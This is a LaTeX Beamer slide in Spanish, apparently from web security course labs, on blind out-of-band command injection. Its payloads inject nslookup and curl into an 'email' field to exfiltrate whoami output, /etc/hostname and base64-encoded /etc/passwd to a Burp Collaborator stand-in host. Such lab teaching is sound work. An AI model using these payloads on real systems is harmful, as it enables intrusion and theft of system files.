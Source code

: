 \documentclass[aspectratio=169,10pt]{beamer}
\newcommand{\cmd}[1]{\texttt{\color{uznavy}#1}}
\begin{document}
\begin{frame}[allowframebreaks]{Command Injection}
\small
  \begin{itemize}
  \item Blind Command Injection --- OOB: Detección y Exfiltración (Labs 155-156)
  \item Vulnerabilidades Web
  \item Blind OOB --- cuando no hay directorio escribible ni retardos fiables
  \item Si no podemos ver la salida ni redirigirla a la web $\rightarrow$ exfiltrar por DNS/HTTP.
  \item El servidor víctima hace una consulta DNS a un dominio que controlamos.
  \item Herramientas: Burp Collaborator, interactsh, canarytokens.org.
  \item Lab 155 --- Detección OOB básica (confirmar ejecución)
  \item Inyectar un nslookup al Collaborator --- si recibimos el callback $\rightarrow$ vuln confirmada.
  \item \cmd{email=x||nslookup+BURP-COLLABORATOR.net||}
  \item \cmd{email=x;nslookup+BURP-COLLABORATOR.net;}
  \item \cmd{email=x`nslookup BURP-COLLABORATOR.net`}
  \item $\rightarrow$ Si el Collaborator recibe una consulta DNS $\rightarrow$ ejecución de comandos confirmada.
  \item Lab 156 --- Exfiltración de datos vía DNS (OOB)
  \item Incrustar la salida del comando en el subdominio de la consulta DNS:
  \item \cmd{email=x||nslookup+`whoami`.BURP-COLLABORATOR.net||}
  \item $\rightarrow$ El Collaborator recibe: 'peter.BURP-COLLABORATOR.net' $\rightarrow$ sabemos que el usuario es 'peter'.
  \item Exfiltrar ficheros (carácter a carácter si hay longitud máxima de subdominio):
  \item \cmd{||nslookup `cat /etc/hostname`.BURP-COLLABORATOR.net||}
  \item \cmd{||curl http://BURP-COLLABORATOR.net/`cat /etc/passwd|base64`||}
  \item $\rightarrow$ La petición HTTP lleva el /etc/passwd en base64 como path $\rightarrow$ Collaborator lo captura.
  \item Comparativa de técnicas blind
  \item Time-based: sin dependencias externas, pero impreciso con latencia de red.
  \item Redirección de salida: directa y legible, requiere directorio escribible + web.
  \item OOB (DNS/HTTP): más fiable y completa, requiere infraestructura de Collaborator.
  \item Protocolos salientes bloqueados en muchos entornos --- probar DNS antes que HTTP.
  \end{itemize}
\end{frame}
\end{document}
